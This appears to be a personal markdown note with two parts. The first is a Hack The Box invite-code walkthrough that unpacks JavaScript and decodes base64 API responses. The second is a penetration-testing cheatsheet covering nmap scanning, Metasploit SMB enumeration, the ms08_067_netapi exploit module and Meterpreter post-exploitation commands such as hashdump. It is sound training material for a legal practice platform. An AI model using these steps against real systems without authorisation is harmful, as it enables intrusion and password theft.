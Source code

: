 # Hack The Box

## Entry

The task is to find the an interesting script. It goes as `view-source:https://www.hackthebox.eu/js/inviteapi.min.js`.

```js
eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0 3(){$.4({5:"6",7:"8",9:\'/b/c/d/e/f\',g:0(a){1.2(a)},h:0(a){1.2(a)}})}',18,18,'function|console|log|makeInviteCode|ajax|type|POST|dataType|json|url||api|invite|how|to|generate|success|error'.split('|'),0,{}))
```

This looks like packed code. Unpack the code to get:

```js
function makeInviteCode() {
	$.ajax({
		type: "POST",
		dataType: "json",
		url: '/api/invite/how/to/generate',
		success: function (a) {
			console.log(a)
		},
		error: function (a) {
			console.log(a)
		}
	})
}
```

Go on to the console and run the function `makeInviteCode()`. The following is received:

```s
SW4gb3JkZXIgdG8gZ2VuZXJhdGUgdGhlIGludml0ZSBjb2RlLCBtYWtlIGEgUE9TVCByZXF1ZXN0IHRvIC9hcGkvaW52aXRlL2dlbmVyYXRl

Encoding: Base 64
```

Simply put a `echo ... | base64 -d` to get `In order to generate the invite code, make a POST request to /api/invite/generate`. Now `curl -X POST 'https://www.hackthebox.eu/api/invite/generate'` to get another base64 encoded `Sk5ZSVAtQlNMQU0tSkJCUlAtQ0dQTkstRU5IQlY=`. Perform another `base64 -d` to get the invite code.

(Unpacker)[https://www.strictly-software.com/unpacker/]


# Cheatsheet

## Exploit database

1. Exploit-db

2. Rapid 7

## Scanning

First step is to enumerate the machine. Some tried and tested combinations.

1. Do not go for `T1`. It's too fast, and 

```s
nmap -A -T4 -p- <ip-address>
```

Host scripts results from `nmap`:

1. `Message signing disabled` (or `enabled but not required`) is a dangerous thing allowing an attacker to access a reverse shell.

## Port

1. 139: SMB (`man smbclient`)

## Metasploit

Opening: `msfconsole`

Access: `/usr/share/metasploit-framework/modules`

### SMB enumeration

1. `search smb_version` gives an auxiliary smb scanner (`auxiliary/scanner/smb/smb_version`).

2. To use that, `use auxiliary/scanner/smb/smb_version`

3. `set rhosts` to set the remote hosts.

4. `exploit` to carry out the exploit/scanner.

5. Search for other exploits on some database, like `exploit/windows/smb/ms08_067_netapi` and use it like `use exploit/windows/smb/ms08_067_netapi` from within the auxiliary scanner already set up.

6. 

# Meterpreter

Reverse shell

### Postexploitation enumeration

1. getuid

2. sysinfo

3. hashdump: Dump the SAM table and thus the user passwords.

4. shell